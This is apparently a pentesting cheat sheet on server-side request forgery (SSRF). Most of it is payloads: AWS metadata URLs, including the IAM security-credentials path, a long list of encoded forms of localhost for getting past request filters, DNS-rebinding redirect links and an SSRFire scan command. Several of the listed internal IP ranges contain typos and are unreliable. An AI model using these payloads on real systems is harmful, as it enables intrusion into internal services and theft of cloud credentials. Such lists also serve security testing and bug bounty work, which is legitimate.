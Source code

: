 # SSRF

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
127.0.0.2
127.1
127.2
::1
0:0:0:0:0:0:0:1
0:0:0:000:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
2130706433
2130706434
7F000001
7F000002
localhos
127.123.123.123
0x7f.1
017700000001
127.0.0.1
localhost
0x7f.0x0.0x0.0x1
0177.00.00.01
017700000001
0x7f001
2130706433
017700000001
%6c%6f%63%61%6c%68%6f%73%74
%31%32%37%2e%30%2e%30%2e%31
0x7f000001
00000000177.000000000.000000000.000000001
0x7f.0x0.0x0.0x1
0x000000007f.0x000000000.0x000000000.0x000000001
0x7f.0x0.0x0.1
0x7f.0x0.0.1
0x7f.0.0.1
127.0x0.0x0.0x1
127.0.0x0.0x1
127.0.0.0x1
0177.00.00.1
0177.00.0.1
0177.0.0.1
127.00.00.01
127.0.00.01
127.0.0.01
0x7f.0x0.1
0x7f.1
0177.00.1
0177.1
0x7f.00.1
0177.0x0.1
::ffff:7f000001
0:0:0:0:0:ffff:7f000001
0000:0000:0000:0000:0000:ffff:7f000001
0000:0000:0000:0000:0000:ffff:127.0.0.1
hostname
0177.1
0177.2
0177.0.1
0177.0.2
017700000001
017700000002
0x7F000001
0x7F000002
0X07f.0.0.1
```

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery is a must visit when it comes to ssrf bypasses

## Redirect from one URL to another (DNS Rebinding)

- https://ssrf.localdomain.pw

```
https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
```

- https://sslip.io/
- https://lock.cmpxchg8b.com/rebinder.html

## IP Converter

- https://h.43z.one/ipconverter/

## Tools

```
# https://github.com/micha3lb3n/SSRFire
./ssrfire.sh -d domain.com -s burpcollab.com -f raw_urls
```

## Mindmap

![SSRF Mindmap](/ssrf_mindmap.png)

## Articles

| WriteUp | Description |
| --- | --- |
| https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962 | Configure burp to look for SSRFs |
| https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery | All about SSRF |
| https://github.com/jdonsec/AllThingsSSRF | All Things SSRF |
| https://github.com/assetnote/blind-ssrf-chains | Blind SSRF Chains | 
